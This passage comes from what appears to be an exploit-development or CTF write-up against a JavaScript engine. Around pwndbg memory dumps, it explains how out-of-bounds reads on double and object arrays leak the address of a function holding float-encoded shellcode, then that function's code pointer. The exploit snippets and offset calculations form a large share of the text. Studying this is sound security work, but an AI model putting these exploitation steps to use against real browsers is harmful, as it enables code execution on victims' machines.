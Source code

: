 ```bash
0x2f55000422b0:	0x00000005	0x65313234	0x00000039	0x000005e1
0x2f55000422c0:	0x00000003	0x00000011	0x000422d1	0x00000e01
```

We can see in the marked memory that 0x414141 and 0x424242 are present (doubled, ofcourse).

```js
  var funcAddr = addrOf(func, (objIndex - oobDblIndex) >> 1); 
  console.log("func Addr: " + funcAddr.toString(16));
```

Now, we find the address of `func` function that has our floating point encoded shellcode. We use `(objIndex - oobDblIndex) >> 1`. As we have OOB read in `oobDblArr` of size 256, we calculate distance between `oobDblArr`and `oobObjArr`, place address of `func` in `oobObjArr[0]` and use OOB in `oobDblArr` to read address of `func` which is: `oobObjArr[0]`.

```bash
pwndbg> x/80wx 0x3e8000042191-1
0x3e8000042190:	0x0018e4c1	0x00000219	0x00000219	0x00182271
0x3e80000421a0:	0x00000901	0x0000000a	0x00000000	0x00000002
0x3e80000421b0:	0x00000000	0x40508000	0x00000000	0x40544000
0x3e80000421c0:	0x00000000	0x40548000	0x00000000	0x3ff80000
0x3e80000421d0:	0x0018ece5	0x00000219	0x000421e9	0x00000200
0x3e80000421e0:	0x0000117d	0x00207cad	0x00000901	0x0000000a
0x3e80000421f0:	0x00000000	0x00000082	0x00000000	0x40508000
0x3e8000042200:	0x00000000	0x40544000	0x00000000	0x40548000
0x3e8000042210:	0x00000000	0x3ff80000	0x00000901	0x00000006
0x3e8000042220:	0x00000000	0x40504000	0x00000000	0x40508000
0x3e8000042230:	0x00000000	0x3ff80000	0x0018ece5	0x00000219
0x3e8000042240:	0x00042251	0x00000006	0x0000117d	0x00207cd9
0x3e8000042250:	0x00000901	0x00000006	0x00000000	0x40504000
0x3e8000042260:	0x00000000	0x40508000	0x00000000	0x3ff80000
0x3e8000042270:	0x00000089	0x00000004	0x00000000	0x00848484
0x3e8000042280:	0x0018ed65	0x00000219	0x00042299	0x00000004
0x3e8000042290:	0x0000117d	0x00207d05	0x00000089	0x00000004
0x3e80000422a0:	(0x0019bfd5)	0x00848484	0x00000591	0x00000003
0x3e80000422b0:	0x00000005	0x65313234	0x00000039	0x000005e1
0x3e80000422c0:	0x00000003	0x00000011	0x000422d1	0x00000e01
```

`oobObjArr[0]` is placed after the 2 doublewords of address of `elements` with first part of `elements` being `maps` and second `length`. We can see at address 0x3e80000422a0 the `oobObjArr[0]` has address of `func`. After this we can read address from `oobDblArr[(objIndex - oobDblIndex) >> 1]` as we have OOB read.

We are dividing by 2 because each element in `OobDblArr` is 8 bytes as opposed to 4 byte values in `corruptedArr` so each index would jump twice the memory.

```js
  var dblOffset = (oobDbl2Index - oobDblIndex - 5) >> 1;
  var codeAddr = read(funcAddr + 0x10, dblOffset)[0];
  console.log("code Addr: " + codeAddr.toString(16));
```

Next, we try to leak the address of `code` member of `func` function. We give `funcAddr + 0x10` because the address of code is present at `<add of func> + 0x18`. When we read `OobDblArr2[0]` it accesses first element at address `<addr of elements OobDblArr2> + 0x8`. So, we access value at `funcAddr + 0x18`.
